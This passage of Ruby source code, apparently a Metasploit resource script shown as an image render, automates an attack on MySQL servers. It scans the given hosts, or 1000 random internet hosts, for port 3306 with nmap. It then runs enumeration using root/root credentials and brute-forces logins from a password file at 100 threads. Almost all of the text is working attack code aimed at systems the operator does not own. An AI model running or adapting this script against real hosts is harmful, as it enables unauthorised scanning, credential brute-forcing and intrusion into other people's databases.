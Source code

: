 ```
      unless (framework.datastore['RANDOM_HOSTS'] == 'true')
         run_single("db_nmap -sV -Pn -T4 -p 3306 --script=mysql-info.nse,ip-geolocation-geoplugin.nse --open #{framework.datastore['RHOSTS']}")
      else
         print_warning("db_nmap: search for random remote targets with port 3306 open (mysql)")
         run_single("db_nmap -sV -Pn -T4 -iR 1000 --script=mysql-info.nse,ip-geolocation-geoplugin.nse -p 3306 --open")
      end

      run_single("spool /root/mysql_brute.log")
      run_single("services")
      print_good("Reading msfdb database for info.")
      xhost = framework.db.hosts.map(&:address).join(' ')
      xport = framework.db.services.map(&:port).join(' ')
      xname = framework.db.hosts.map(&:os_name).join(' ').gsub(' ',', ')

         if xhost.nil? or xhost == ''
              print_error("db_nmap scan did not find any alive connections.")
              print_error("Please wait, cleaning recent configurations.")
              Rex::sleep(1.0)
              run_single("unsetg RHOSTS USERPASS_FILE RANDOM_HOSTS")
              return nil
         elsif xport.nil? or xport == ''
              print_error("db_nmap did not find any 3306 open ports.")
              print_error("Please wait, cleaning recent configurations.")
              Rex::sleep(1.0)
              run_single("unsetg RHOSTS USERPASS_FILE RANDOM_HOSTS")
              run_single("services -d")
              run_single("hosts -d")
              return nil
         end

         print_status("Operative systems detected: #{xname}")
         run_single("setg RHOSTS #{xhost}")
         Rex::sleep(2.0)
         if xport =~ /3306/i
              print_warning("Remote Target port: 3306 mysql found.")
              Rex::sleep(1.0)
              run_single("use auxiliary/scanner/mysql/mysql_version")
              run_single("set THREADS 20")
              run_single("exploit")
              Rex::sleep(1.5)
              run_single("use auxiliary/admin/mysql/mysql_enum")
              run_single("set USERNAME root")
              run_single("set PASSWORD root")
              run_single("set THREADS 20")
              run_single("exploit")
              Rex::sleep(1.5)
              run_single("use auxiliary/scanner/mysql/mysql_login")
              run_single("set USERPASS_FILE #{framework.datastore['USERPASS_FILE']}")
              run_single("set STOP_ON_SUCCESS true")
              run_single("set BLANK_PASSWORDS true")
              run_single("set VERBOSE true")
              run_single("set THREADS 100")
              run_single("exploit")
              Rex::sleep(1.5)
       end

       print_warning("Please wait, Cleaning msfdb Database.")
       Rex::sleep(1.0)
       run_single("unsetg RHOSTS RANDOM_HOSTS USERPASS_FILE")
       run_single("unset THREADS VERBOSE USERNAME USERPASS_FILE PASSWORD STOP_ON_SUCCESS")
       Rex::sleep(1.0)
```